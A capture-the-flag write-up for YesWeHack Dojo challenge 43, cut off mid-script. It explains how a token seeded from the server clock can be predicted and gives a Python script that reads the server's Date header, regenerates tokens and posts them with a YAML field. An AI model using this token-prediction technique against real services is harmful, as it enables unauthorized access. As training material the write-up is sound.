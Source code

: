 ### Exploit 1: Weak PRNG

To test this I checked the HTTP request in burp and saw the POST params are `token` and `yaml`. We want to get the server time (may not be in sync with ours) so we can do that by making a request and retrieving the date from the response header.

Then, we generate a token using the same process as the server. There can be some timing issues here so I used a script that would run 5 times, incrementing the time by 1 second until it matches. Note that there is some rate-limiting so we add a slight delay between attempts.

{% code overflow="wrap" %}
```python
import random
import time
import email.utils
import urllib.parse as up
import requests

BASE = "https://dojo-yeswehack.com"
GET = BASE + "/challenge-of-the-month/dojo-43"
POST = BASE + "/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"

# Update with your valid JWT
JWT = ("jwt=REPLACE_ME")

MAX_TRIES = 5  # Retry if timing fails due to latency


def token_for(sec: int) -> str:
    random.seed(sec)
    return ''.join(random.choices('abcdef0123456789', k=16))


def server_sec(sess: requests.Session) -> int:
    hdr = sess.get(GET, timeout=5).headers['Date']
    return int(email.utils.parsedate_to_datetime(hdr).timestamp())


def main() -> None:

    s = requests.Session()
    s.headers.update({"Cookie": JWT, "User-Agent": "meow meow meow",
                      "Origin": BASE, "Referer": GET})

    # Get server time from date response header and calculate the timedrift
    drift = server_sec(s) - int(time.time())
    print(f"[+] drift (server-client): {drift:+d} s")

    offset = -1  # Start at -1 seconds, loop until MAX_TRIES (default=5)
    for attempt in range(1, MAX_TRIES + 1):
        # Generate seed and convert to token
        seed = int(time.time()) + drift + offset
        token = token_for(seed)
        print(f"[*] try {attempt:02d}: seed {seed}, token {token}")

        # Send our [hopefully valid] token and deserialization payload
        r = s.post(
            POST,
            data=up.urlencode({"yaml": "meow", "token": token}),
            headers={"Content-Type": "application/x-www-form-urlencoded"},
            timeout=5,
        )

        # Did we get the timing wrong?
```